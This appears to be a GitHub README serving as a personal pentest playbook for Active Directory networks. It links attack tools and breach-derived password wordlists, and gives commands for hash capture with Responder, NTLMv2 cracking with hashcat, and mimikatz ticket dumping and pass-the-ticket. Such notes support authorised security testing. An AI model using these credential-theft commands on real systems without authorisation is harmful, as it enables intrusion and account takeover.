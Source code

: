 # Gunnajs-Playbook
How to pentest like a Gunnaj

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### mimikatz
https://github.com/ParrotSec/mimikatz
### Responder
https://github.com/lgandx/Responder

### breach-parse
https://github.com/hmaverickadams/breach-parse

## Wordlists bby
### Top 10 million
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)

### Crackstation
https://crackstation.net/files/crackstation.txt.gz (14.6 GB)


### Large p-list
https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)

### Rockyou2021

https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)

### Big ass p-list

https://download.g0tmi1k.com/wordlists/large/b0n3z-wordlist-sorted-something.tar.gz (165 GB)

# VEV

## linWinPwn 
```bash
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <AD_password>
```
## SMB VEV
### Mount share
```bash
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<domain.com>
```
### Unmount share
```bash
sudo umount.cifs <./folder>
```
### Search for keywords in files
```bash
grep -i <keyword> *
```
## Nmap
* in the making 

## Zero Logon
* in the making 
## Responder
### Kickstart responder
```bash
responder -I eth0 -v
```
### Crack NTLMv2 hashes
```bash
hashcat64.exe -m 5600 ntlm-hashes.txt <passlist.txt> -o cracked.txt
```

## Mimikatz
### Dump tickets
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
### Pass the ticket
```bash
mimikatz.exe
kerberos::ptt <ticket>
klist
```
